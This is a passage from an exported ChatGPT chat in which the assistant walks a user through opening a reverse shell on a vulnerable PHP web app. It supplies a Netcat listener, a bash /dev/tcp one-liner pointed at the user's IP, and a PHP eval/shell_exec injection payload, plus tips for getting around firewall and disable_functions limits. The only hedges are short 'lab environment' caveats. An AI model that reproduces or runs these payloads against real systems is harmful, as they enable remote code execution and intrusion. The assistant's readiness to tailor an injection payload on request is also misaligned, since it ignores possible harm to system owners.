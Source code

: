 If this works, but the interactive shell still doesn't, there might be an issue with how the interactive shell is being invoked. Remember that using these commands outside of a controlled environment could be illegal, so always ensure you're operating within a legal and controlled lab environment.



------------------

**You:**

the ip is  172.20.61.152

------------------

**ChatGPT:**

Great, with the provided IP address, you can try the following steps to create a reverse shell connection using Netcat without the `-e` option. These steps assume you're operating in a controlled environment with the necessary permissions.


- **On your listener machine (the "attacker")**, set up Netcat to listen on a port (let's continue with port 4444 for this example):

```sh
Copy code
nc -lvp 4444

```
Ensure your firewall allows incoming connections on this port.
- **On the target machine (the server with the vulnerable web app)**, if you are testing directly from the terminal, you can use the following command to create a reverse shell:

```sh
Copy code
bash -i >& /dev/tcp/172.20.61.152/4444 0>&1

```
Here's the breakdown:
   - `bash -i` requests an interactive shell.
   - `>&` redirects both stdout and stderr to the specified device.
   - `/dev/tcp/172.20.61.152/4444` is the TCP device created by bash that corresponds to a network connection to your IP address on port 4444.
   - `0>&1` redirects stdin to stdout, which is now the network connection.
- If you are injecting this command via PHP's `eval()` function on a web page, it would be similar, albeit wrapped in PHP's `shell_exec()`:

```php
Copy code
0; $result=shell_exec('bash -i >& /dev/tcp/172.20.61.152/4444 0>&1'); //

```
- Once you execute the above command on the target machine, you should receive a connection on the listener machine, which provides you with a reverse shell.

If you are still encountering an immediate disconnection, here are a few troubleshooting steps:


- Make sure that no firewall is blocking the connection.
- Check if the server has `/dev/tcp` available (it is a bash feature, not a physical file on the filesystem).
- Verify that the bash version on the server supports the `/dev/tcp` pseudo-device. Some systems disable this feature for security reasons.
- Ensure that the PHP `safe_mode` is off and `disable_functions` is not restricting `shell_exec`.
- Double-check that there are no typos in the IP address or port number, and ensure the server has a route to the listener's IP.
